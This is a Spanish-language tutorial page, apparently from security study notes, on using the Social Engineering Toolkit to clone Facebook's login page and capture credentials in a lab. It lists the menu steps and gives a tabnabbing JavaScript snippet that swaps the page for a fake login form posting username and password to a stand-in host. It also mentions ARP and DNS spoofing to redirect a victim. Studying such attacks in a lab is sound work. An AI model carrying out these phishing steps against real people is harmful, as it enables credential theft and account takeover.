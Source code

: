 # Social Engineering ToolKit (SET)

Esta herramienta una de sus principales funciones es la de emular una pagina web que quieras totalmente exacta a la que elijas, reconstruyendo su codigo fuente para que sea una copia y con ello que se pueda hacer una especie de `phishing`.

Para mas informacion nos podremos ir al `github` de la herramienta en el siguiente link:

URL = [Social Engineering Toolkit GitHub](https://github.com/trustedsec/social-engineer-toolkit)

Esta herramienta ya viene instala por defecto en `kali`.

En tal caso de que no viene el repositorio, solo tendreis que instalar lo siguiente y ya la tendriais:

```shell
sudo apt install set
```

La iniciaremos con el siguiente comando:

```shell
setoolkit
```

Y nos aparecera como un `disclaimer` para aceptar que vamos a utilizar la herramienta con buenas acciones y no con malas, por lo que le daremos a la `y`, y esto nos metera en la herramienta:

<figure><img src="../../.gitbook/assets/image (127) (1).png" alt=""><figcaption></figcaption></figure>

Esto lo que hace automaticamente es replicar una pagina web que elijamos y capturar las credenciales que se introduzcan por parte del usuario para que nos llegue a nosotros.

Le daremos al numero `1` y despues al numero `2`, tendremos que ver esto en nuestro `prompt` de terminal:

```
set:webattack>
```

Seguidamente le daremos al numero `5` y despues al numero `3`.

Nos dira que si la IP que vemos reflejada en el `prompt` es la correcta, ya que la detecta automaticamente, de ser asi le dariamos a `ENTER` de lo contrario metemos nosotros la IP y `ENTER`.

Ahora nos pedira la pagina la cual queremos replicar, por lo que buscaremos `facebook.es`, dentro del login de `facebook` le daremos click derecho en la pagina -> `Save Page As ...` -> cambiar la parte de `Web Page, Complete` por `Web Page, HTML Only` -> lo renombramos como index.html -> `Save`

Metemos la ruta donde este ese `index.html`, despues nos aparecera que importemos la `URL` pondremos `facebook.es` para que nos aparezca este dominio y le daremos a `ENTER`, si tenemos `apache2` corriendo nos dira que si lo queremos desactivar para que lo active el, le daremos a `y`, en tal caso de que no estuviera activado, ya estaria lista la herramienta.

Por lo que si visitamos `http://localhost/` nos dira un link de que se movio la pagina a otro sitio y esto nos redirigira a la pagina `phishing` de `facebook.es` exactamente igual a la original:

> NOTA POSIBLE ERROR:

Si por ejemplo diera un error en la parte de cuando dejas en blanco lo de la `URL` tendriamos que hacer lo siguiente:

```shell
sudo nano /usr/local/share/setoolkit/src/webattack/tabnabbing/source.js

#Dentro del nano

// source.js: Simulación básica de Tabnabbing
window.onload = function () {
    // Tiempo de espera para simular cambio de pestaña (en milisegundos)
    setTimeout(function () {
        // Cambia el contenido de la página después de 3 segundos
        document.body.innerHTML = `
            <h1>Inicia sesión para continuar</h1>
            <form action="http://example.com/capture" method="POST">
                <label for="username">Usuario:</label>
                <input type="text" id="username" name="username"><br><br>
                <label for="password">Contraseña:</label>
                <input type="password" id="password" name="password"><br><br>
                <button type="submit">Iniciar sesión</button>
            </form>
        `;
        document.title = "Inicio de sesión - Seguridad";
    }, 3000);
};
```

Guardamos esto y volvemos a ejecutar la herramienta, con esto deberia de funcionar ya.

<figure><img src="../../.gitbook/assets/image (128) (1).png" alt=""><figcaption></figcaption></figure>

Una vez que tengamos corriendo esta pagina y estando en mitad de la comunicacion con el `ARP Spoofing` y el `DNS Spoofing` que le redirija a esta pagina cuando meta `facebook.es`, ya podremos probar a como si fueramos el usuario desde la maquina `windows` a meter `facebook.es` en el navegador y metes unas credenciales, por lo que si visitamos dicho dominio, veremos que funciona ya que nos aparece nuestra pagina falsa.

Cuando metemos nuestras credenciales como usuario normal, podremos ver que en la maquina atacante las recivimos:

<figure><img src="../../.gitbook/assets/image (129) (1).png" alt=""><figcaption></figcaption></figure>
